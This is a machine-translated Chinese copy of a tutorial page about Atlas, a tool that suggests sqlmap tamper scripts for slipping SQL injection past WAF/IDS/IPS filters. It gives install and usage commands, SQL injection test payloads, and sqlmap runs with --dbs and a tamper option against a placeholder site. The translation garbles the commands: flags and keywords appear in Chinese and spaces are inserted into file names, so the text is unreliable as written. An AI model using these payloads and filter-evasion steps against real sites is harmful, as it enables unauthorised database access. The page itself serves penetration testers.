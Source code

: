 # 图集:快速 SQLMap 篡改提示 1.0 版

> 原文：<https://kalilinuxtutorials.com/atlas-2/>

[![Atlas : Quick SQLMap Tamper Suggester v1.0](img//a1188c2b7cb9feff7ed346703bd38fda.png "Atlas : Quick SQLMap Tamper Suggester v1.0")](https://1.bp.blogspot.com/-PdBDRHSr9ZU/XvOrNSYxOFI/AAAAAAAAGtM/w0zHCqCjB8sjjZ7As-LvBj_ml5Hb_ticgCLcBGAsYHQ/s1600/Atlas%25281%2529.png)

Atlas 是一个开源工具，可以建议 sqlmap 篡改以绕过 WAF/IDS/IPS，该工具基于返回的状态代码。

**截图**

![](img//b0f62f2d3c42916b22b60015d22f8009.png)

**安装**

**git 克隆 https://github . com/m4ll 0k/atlas . git atlas
$ CD atlas
$ python atlas . py # python 3+**

**用途**

**$ python atlas . py–URL http://site.com/index.php?id=Price_ASC–有效载荷="-1234 和 4321 = 4321–AAAA”-random-agent-v**

注入点(带 **%%inject%%** ):

*   **获取:**

**$ python atlas . py–URL http://site.com/index/id/%%10%%–有效载荷="-1234 和 4321 = 4321–AAAA”-random-agent-v**

*   **帖子:**

**$ python atlas . py–URL http://site.com/index/id/-m POST-D ' test = % % 10% % '–payload = "-1234 和 4321 = 4321–AAAA”-random-agent-v**

*   **标题:**

**$ python atlas . py–URL http://site.com/index/id/-H '用户代理:Mozilla/5.0% % inject % % '-H ' X-header:test '–有效负载="-1234 和 4321 = 4321–AAAA”-random-Agent-v**

*   **篡改串联:**

**$ python atlas . py–URL http://site.com/index/id/%%10%%–有效载荷="-1234 和 4321 = 4321–AAAA”-concat " equalto like，html encode”-random-agent-v**

*   **获取篡改列表:**

**python atlas . py-g**

**也可阅读-[Vault:秘密管理工具，加密即服务&特权访问管理](https://kalilinuxtutorials.com/vault/)**

**例子**

*   **运行 SQLMap:**

**$ python sqlmap . py-u 'http://site.com/index.php？id = Price _ ASC '–DBS–random-agent-v3**

![](img//b05f85d835871b409c36d79ed1bfa1cc.png)

Price_ASC ')和 8716=4837 和(' yajr'='yajr 被 WAF/IDS/IPS 屏蔽，现在尝试用 Atlas:

**$ python atlas . py–URL 'http://site.com/index.php？id = Price _ ASC '–payload = ' ')和 8716=4837 和(' yajr ' = ' yajr '–random-agent-v**

![](img//50465cc375c533c74c752ca0d94ae76c.png)

此时:

**$ python sqlmap . py-u 'http://site.com/index.php？id = Price _ ASC '–DBS–random-agent-v3–tamper = versified**

[**Download**](https://github.com/m4ll0k/Atlas)